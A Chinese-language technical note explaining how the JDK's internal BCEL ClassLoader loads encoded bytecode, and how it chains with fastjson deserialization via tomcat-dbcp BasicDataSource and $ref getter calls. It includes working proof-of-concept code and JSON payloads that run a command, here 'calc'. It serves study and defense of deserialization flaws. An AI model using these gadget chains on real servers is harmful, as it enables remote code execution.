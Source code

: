 # 0x01 What Is BCEL

BCEL(Byte Code Engineering Library)的全名是Apache Commons BCEL，属于Apache Commons项目下的一个子项目，BCEL库提供了一系列用于分析、创建、修改Java Class文件的API。相较Commons Collections，BCEL被包含在原生JDK中，更容易被利用。

> BCEL Classloader在 JDK < 8u251之前是在rt.jar里面，后被移除
>

`com.sun.org.apache.bcel.internal.util.ClassLoader`重写了Java内置的`ClassLoader#loadClass()`方法，会判断传入的字符串是否是`$$BCEL$$`开头，如果是的话，将会对这个字符串进行decode。可以理解为是传统字节码的HEX编码，再将反斜线替换成`$`。默认情况下外层还会加一层GZip压缩。

# 0x02 Best Practice

编写恶意类

```java
public class Evil {
    static {
        try {
            Runtime.getRuntime().exec("calc");
        } catch (Exception e) {}
    }
}
```

测试：

```java
import com.sun.org.apache.bcel.internal.Repository;
import com.sun.org.apache.bcel.internal.classfile.JavaClass;
import com.sun.org.apache.bcel.internal.classfile.Utility;
import com.sun.org.apache.bcel.internal.util.ClassLoader;

public class Test {
    public static void main(String[] args) throws Exception {
        JavaClass javaClass = Repository.lookupClass(Evil.class);
        String encode = Utility.encode(javaClass.getBytes(), true);
        System.out.println(encode);
        // Class.forName("$$BCEL$$" + encode, true, new ClassLoader());
        new ClassLoader().loadClass("$$BCEL$$" + encode).newInstance();
    }
}
```

* `Repository`用于将一个`Java Class`先转换成原生字节码

* `Utility`用于将原生的字节码转换成BCEL格式的字节码

我们知道一般的类加载器`loadClass`是传入的全限定类名，它会调用`findClass`根据其设定的搜索URL去找这个字节码文件，读取后再调用`defineClass`加载进来。

而对于这个类加载器，我们是直接将编码后的字节码传入`loadClass`，从利用上来说就不需要远程加载或者文件落地了。

# 0x03 BCEL + fastjson

fastjson网传的三条利用链如下：

- `com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl`
- `com.sun.rowset.JdbcRowSetImpl`
- `org.apache.tomcat.dbcp.dbcp2.BasicDataSource`

1. 常规的Java字节码的执行，但是需要开启`Feature.SupportNonPublicField`，较鸡肋
2. 利用JNDI注入，但需要服务器出网
3. 不用出网也不用开启`Feature.SupportNonPublicField`，但对JDK版本有限制

```xml
<dependency>
    <groupId>org.apache.tomcat</groupId>
    <artifactId>tomcat-dbcp</artifactId>
    <version>8.5.45</version>
</dependency>
<dependency>
    <groupId>com.alibaba</groupId>
    <artifactId>fastjson</artifactId>
    <version>1.2.23</version>
</dependency>
```

调用链`getConnection()->createDataSource()->createConnectionFactory()->createDriver()`

![image-20230125194234991](../.gitbook/assets/image-20230125194234991.png)

`Class.forName`第二个参数`initial`为true时，类加载后将会直接执行`static{}`块中的代码。

`driverClassLoader`和`driverClassName`都可以通过fastjson控制

> {    
>
> ​	{        
>
> ​		"aaa": {                
>
> ​			"@type": "org.apache.tomcat.dbcp.dbcp2.BasicDataSource",                
>
> ​			"driverClassLoader": {                    
>
> ​				"@type": "com.sun.org.apache.bcel.internal.util.ClassLoader"                
>
> ​			},                
>
> ​			"driverClassName": "$$BCEL$$$l$8b$I$A$..."        
>
> ​		}    
>
> ​	}: "bbb" 
>
> }

![image-20230125194956235](../.gitbook/assets/image-20230125194956235.png)

实际上面的getConnection不满足fastjson对自动调用getter的要求

> 满足条件的getter
>
> * 函数名长度大于等于4
> * 非静态方法
> * 以get开头且第4个字母为大写
> * 无参数
> * 返回值类型继承自Collection或Map或AtomicBoolean或AtomicInteger

在`{"@type":"org.apache.tomcat.dbcp.dbcp2.BasicDataSource"……}` 这一整段外面再套一层`{}`，这样的话会把这个整体当做一个JSONObject，会把这个当做key，值为bbb

将这个 JSONObject 放在 JSON Key 的位置上，在 JSON 反序列化的时候，FastJson 会对 JSON Key 自动调用 toString() 方法（因为key一定要是String类型）

而且JSONObject是Map的子类，当调用`toString`的时候，会依次调用该类的getter方法获取值。所以会调用到`getConnection`方法

![image-20230125201059313](../.gitbook/assets/image-20230125201059313.png)

> 当fastjson>=1.2.36的时候，可以使用`$ref`方式调用getter
>
> ref是fastjson特有的JSONPath语法，用来引用之前出现的对象
>
> ```java
> public class test {
>     private String cmd;
> 
>     public void setCmd(String cmd) {
>         System.out.println("seter call");
>         this.cmd = cmd;
>     }
> 
>     public String getCmd() throws IOException {
>         System.out.println("geter call");
>         Runtime.getRuntime().exec(cmd);
>         return cmd;
>     }
> }
> ```
>
> ```java
> public class ref_fastjson {
>     public static void main(String[] args) {
>         ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
>         String payload = "[{\"@type\":\"com.demo.fastjson.test\",\"cmd\":\"calc\"},{\"$ref\":\"$[0].cmd\"}]";
>         JSON.parse(payload);
>     }
> }
> ```

